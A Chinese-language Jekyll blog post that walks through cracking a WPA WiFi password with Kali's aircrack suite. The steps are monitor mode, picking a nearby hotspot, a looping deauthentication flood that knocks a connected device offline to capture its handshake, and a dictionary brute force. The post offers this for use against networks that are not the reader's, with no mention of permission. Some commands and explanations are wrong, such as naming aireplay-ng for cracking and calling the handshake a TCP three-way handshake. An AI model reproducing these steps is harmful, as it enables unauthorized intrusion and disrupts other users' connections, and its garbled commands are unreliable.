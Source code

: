 ```yaml
---
layout: post
title: kali WiFi渗透
date: 2019-10-15 09:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: red.jpg # Add image post (optional)
tags: [kali, WiFi渗透] # add tag
---
```


#### 准备工作： kali系统、有无线网卡的电脑、手机一台（用来打开WiFi热点）、一本强大的密码字典

#### 实现原理：进入kali系统，使用系统自带的Aircrack程序监听周围的热点，选择一个不错的WiFi热点然后对连接它的一台设备进行攻击，使其掉线，掉线后这台设备会自动重新连接，在连接的过程中设备会发送握手的数据包（当然也可以坐等设备连接当前WiFi热点，只要有设备在进行连接就会发送握手包），我们就可以利用伪装的挂载设备去获取这个握手包，最后就可以用密码字典文件去暴力破解获得密码。

### 1.建立监听热点机制

首先使用ifconfig/iwconfig命令查看无线网卡是否加载成功，如图出现wlan0无线设备即加载成功。（eth0是本机的以太网卡配置参数，wlan0是你的无线网卡名称，lo是回环接口）    
![Alt text](/assets/img/ifconfig.png)

使用airodump-ng start命令开启无线网卡，此时无线网卡的名称将会变成wlan0mon
![Alt text](/assets/img/start.png)

### 2.监听WiFi热点

使用airodump-ng wlan0mon命令开始监听周围的WiFi热点，显示周围热点（ctrl+c 停止监听）
![Alt text](/assets/img/监听wifi信号.png)

选取一个WiFi热点进行嗅探抓包（当有设备连入当前WiFi后就会抓取tcp握手包并存入保存路径内，坐等……）
```
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:99 -w ~/a/ 网卡名
-c  指定频道号(ch)
--bssid  指定无线路由器的BSSID
-w  指定获取的包存储的路径
```
![Alt text](/assets/img/监听wifi握手包.png)

为了加速获取握手包可以选取一个连接当前WiFi的设备进行攻击，使用aireplay给其发送断开包，设备断开后就会进行自动重连
```
aireplay-ng -0 0 -c AC:88:FD:14:31:5B -a 48:0E:EC:7C:32:99 网卡名
-0  表示发起攻击（deauthentication洪水攻击），后面指定攻击次数，设置0则为循环攻击，不停的攻击客户端将无法正常上网（ctrl+c停止）
-c  指定强制断开的设备的mac地址
-a  指定无线路由器的BSSID
攻击原理：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），此时我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码
```
![Alt text](/assets/img/攻击.png)

这时我们只需等待右上角出现WPA handshake字样，后面跟着BSSID，即为抓到了该无线网的握手包，我们可以使用CTRL+C来停止嗅探握手包。
![Alt text](/assets/img/获得握手包.png)

获取到了握手包我们就可以在之前设置的保存路径中看到，其中.cp文件就是我们需要破解的密码
![Alt text](/assets/img/握手包.png)

### 3、使用字典暴力破解

这一步是整个密码破解的关键，能否成功，取决与你的CPU是否强大，还有你字典的大小，以及字典的质量，密码的复杂程度。
```
aireplay-ng -a2 -b 48:0E:EC:7C:32:99 -w ~/1.txt ~/a/-01.cp
-a2  代表WPA的握手包
-b  指定要破解的WiFi BSSID
-w  指定字典文件
最后是抓取的包
```
![Alt text](/assets/img/暴力破解.png)   
